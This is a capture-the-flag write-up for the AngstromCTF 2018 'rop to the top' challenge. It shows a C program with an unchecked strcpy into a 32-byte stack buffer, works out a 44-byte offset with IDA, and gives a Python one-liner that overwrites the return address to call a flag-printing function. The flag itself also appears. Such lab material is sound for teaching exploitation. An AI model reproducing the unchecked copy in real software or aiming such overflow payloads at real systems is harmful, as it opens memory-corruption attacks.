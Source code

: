 # rop to the top

## Description

Here's some binary and source. Navigate to /problems/roptothetop/ on the shell server to try your exploit out!

hint: Look up "Return Oriented Programming" (ROP) vulnerabilities
and figure out how you might be able to change the return address.

## Solving

First, as always, I ran the binary. Here is what I saw:
<pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># mv ./rop_to_the_top32 ./rop32
<font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./rop32
Usage: ./rop_to_the_top32 &lt;inputString&gt;
<font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./rop32 &quot;some string&quot;
Now copying input...
Done!
</pre>

So the program takes one string argument and just does something with it. Now let's seee the source code.
```C
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void the_top(){

    system("/bin/cat flag");

}

void fun_copy(char *input){

    char destination[32];
    strcpy(destination, input);
    puts("Done!");
}

int main (int argc, char **argv){
    gid_t gid = getegid();
    setresgid(gid,gid,gid);

    if (argc == 2){
        puts("Now copying input...");
        fun_copy(argv[1]);
    } else {
        puts("Usage: ./rop_to_the_top32 <inputString>");
    }

    return 0;
}
```

The program is actually copies the input to the buffer (destination variable). Still, as I can see, there is no limitation for the input, but the buffer has only 32 bytes of length. So, I can overflow the buffer. Another important thing is that there is a function "the_top" which actually prints the flag. Now I need to figure out how can I use the buffer overflowing to call "the_top", so I can get the flag.

I decided to look this program in the IDA. I found function "fun_copy" and looked into it's stack. Here's the destination variable's start:

![dest_starts](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/rop%20to%20the%20top%20(130)/src/dest_starts.PNG)

I need the buffer's start offset. It's -28h. And here I see the end of the buffer and the main thing is that here you can see the variable called 'r'. It's a return address (the address of the command that will be executed after the function finishes it's work). And I can rewrite it's value, overflowing the buffer.

![return_address](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/rop%20to%20the%20top%20(130)/src/return_offset.PNG)

And I need it's offset too. It's +04h. So, there is ```4h-(-28h)=2Ch=44``` bytes from the start of the buffer and to the start of the return address. Now, I need to write 44 bytes to the input and 4 more bytes to rewrite return address.

Next, I found the function's "the_top" address. Here you can see it (08 04 84 DB):

![address](https://raw.githubusercontent.com/0awawa0/CTF-Writeups/master/AngstromCTF%202018/Binary/rop%20to%20the%20top%20(130)/src/addressPNG.PNG)

Okay, now I have everything to get the flag. But I can't write the address from the keyboard, cause it's non-printable bytes. So I will use Python to do it. So, let's do it:

<pre><font color="#EF2929"><b>oot@kali</b></font>:<font color="#729FCF"><b>/mnt/hgfs/Shared</b></font># ./rop32 &quot;`python -c \&quot;print &apos;A&apos;*44 + &apos;\xdb\x84\x04\x08&apos;&quot;`&quot;
Now copying input...
Done!
actf{strut_your_stuff}
Segmentation fault
</pre>